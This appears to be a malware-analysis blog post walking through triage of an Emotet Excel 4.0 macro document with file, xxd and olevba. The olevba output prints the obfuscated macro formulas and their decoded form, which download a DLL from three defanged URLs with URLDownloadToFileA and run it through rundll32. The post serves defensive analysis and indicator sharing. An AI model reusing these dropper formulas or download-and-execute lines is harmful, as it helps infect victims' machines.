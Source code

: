 ```yaml
---
layout: post
title: "Emotet's Excel 4.0 Macros Dropping DLLs"
date: 2022-01-17
categories: malware emotet excel4-macro
permalink: /emotet-excel4-macro-analysis/
---
```


It's been a little while since I checked in on Emotet to see how its first stage loaders are doing. Lately the first stage has been using Excel 4.0 macros to drop payloads, so in this post I'll walk through the analysis of one Emotet Excel document. If you want to play along at home, I'm working with this sample in MalwareBazaar: [https://bazaar.abuse.ch/sample/1a243db583013a6999761dad88d6952351fdc2cd17d2016990276a9dd11ac90b/](https://bazaar.abuse.ch/sample/1a243db583013a6999761dad88d6952351fdc2cd17d2016990276a9dd11ac90b/)

## Triaging the File

As always, we should confirm our filetype first. Let's give it a go using `file`, `xxd`, and `head`.

```console
remnux@remnux:~/cases/emotet$ file nn30.xlsm 
nn30.xlsm: Microsoft Excel 2007+

remnux@remnux:~/cases/emotet$ xxd nn30.xlsm | head
00000000: 504b 0304 1400 0600 0800 0000 2100 a78b  PK..........!...
00000010: 2b33 c901 0000 9707 0000 1300 0802 5b43  +3............[C
00000020: 6f6e 7465 6e74 5f54 7970 6573 5d2e 786d  ontent_Types].xm
00000030: 6c20 a204 0228 a000 0200 0000 0000 0000  l ...(..........
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0101 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

The `file` output says the file magic belongs to a Excel document, and the first few bytes are what I'd expect from an Excel document. The `PK` part of the magic is common to zip archives as well and Excel XLSX documents are similar to zip archives. The string `[Content Types].xml` refers to the filename of one of the XML files that make up a larger Excel document. If you unzip a XLSX file, you'll find one of those files in the extracted content. All told, this is consistent with an Excel doc.

## Analyzing the Document

A good starting point for the analysis is `olevba`. 

```console
remnux@remnux:~/cases/emotet$ olevba nn30.xlsm 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: nn30.xlsm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO xlm_macro.txt 
in file: xlm_macro - OLE stream: 'xlm_macro'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' RAW EXCEL4/XLM MACRO FORMULAS:
' SHEET: EWDFFEFAD, Macrosheet
' CELL:E13, =FORMULA(Srieifew1!E2,E16)=FORMULA(Buuk1!P22&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!G15&Srieifew1!P20&Srieifew1!K5,E18)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!P19&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!S11&Srieifew1!P20&Srieifew1!K5&Buuk1!P13,E20)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH1"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!P19&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!D18&Srieifew1!P20&Srieifew1!K5&Buuk1!P13,E22)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH2"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!H9&Buuk1!B15&Buuk1!I17&Buuk1!I3&Buuk1!H13&Buuk1!P11&Buuk1!K9&Buuk1!P13&Buuk1!P7&Buuk1!P13,E24)=FORMULA(Buuk1!P22&Buuk1!H13&Buuk1!N4&Buuk1!H13&Buuk1!H9&Buuk1!P11&Buuk1!P15&Buuk1!H9&Buuk1!P20&Srieifew1!O14&Srieifew1!Q3&Srieifew1!N9&Srieifew1!O5&Buuk1!P15&Buuk1!P17&"YHYH6"&Buuk1!P13,E26)=FORMULA(Buuk1!P22&Buuk1!G24&Buuk1!H13&Buuk1!I26&Buuk1!E11&Buuk1!G24&Buuk1!K23&Buuk1!P11&Buuk1!P13,E32), 0
' - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' EMULATION - DEOBFUSCATED EXCEL4/XLM MACRO FORMULAS:
' CELL:E13       , FullEvaluation      , False
' CELL:E18       , FullEvaluation      , CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxps://zml.laneso.com/packet/AlvJ8OdtSYEeeCQP/","..\erum.ocx",0,0)
' CELL:E20       , FullEvaluation      , IF(YHYH<0,CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxp://ostadsarma.com/wp-admin/JNgASjNC/","..\erum.ocx",0,0))
' CELL:E22       , FullEvaluation      , IF(YHYH1<0,CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxp://govtjobresultbd.xyz/sjjz/UIUhOHsLqjOy9/","..\erum.ocx",0,0))
' CELL:E24       , FullEvaluation      , IF(YHYH2<0,CLOSE(0),)
' CELL:E26       , PartialEvaluation   , =EXEC("C:\Windows\SysWow64\rundll32.exe ..\erum.ocx,D""&""l""&""lR""&""egister""&""Serve""&""r")
' CELL:E32       , FullEvaluation      , RETURN()
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CALL                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|URLDownloadToFileA  |May download files from the Internet         |
|Suspicious|EXEC                |May run an executable file or a system       |
|          |                    |command using Excel 4 Macros (XLM/XLF)       |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxps://zml.laneso.c|URL                                          |
|          |om/packet/AlvJ8OdtSY|                                             |
|          |EeeCQP/             |                                             |
|IOC       |hxxp://ostadsarma.co|URL                                          |
|          |m/wp-admin/JNgASjNC/|                                             |
|IOC       |hxxp://govtjobresult|URL                                          |
|          |bd.xyz/sjjz/UIUhOHsL|                                             |
|          |qjOy9/              |                                             |
|IOC       |rundll32.exe        |Executable file name                         |
|Suspicious|XLM macro           |XLM macro found. It may contain malicious    |
|          |                    |code                                         |
+----------+--------------------+---------------------------------------------+
```

Interpreting the output, it looks like the document has Excel 4.0 macros that download content from these URLs:

- `hxxps://zml.laneso[.]com/packet/AlvJ8OdtSYEeeCQP/`
- `hxxp://ostadsarma[.]com/wp-admin/JNgASjNC/`
- `hxxp://govtjobresultbd[.]xyz/sjjz/UIUhOHsLqjOy9/`

And using the [`URLDownloadToFileA`](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85)) function from `urlmon.dll`, the document saved the downloaded content to `erum.ocx`.

Afterward, the document proceeded to execute `C:\Windows\SysWow64\rundll32.exe ..\erum.ocx,D"&"l"&"lR"&"egister"&"Serve"&"r`. The obfuscation on the DLL export reduces down to `DllRegisterServer`. So the process ancestry becomes `excel.exe -> rundll32.exe erum.ocx,DllRegisterServer`.

We can confirm this by looking at a sandbox report from Tria.ge here: [https://tria.ge/220115-mqldpsdhb7/behavioral1](https://tria.ge/220115-mqldpsdhb7/behavioral1).

Thanks for reading!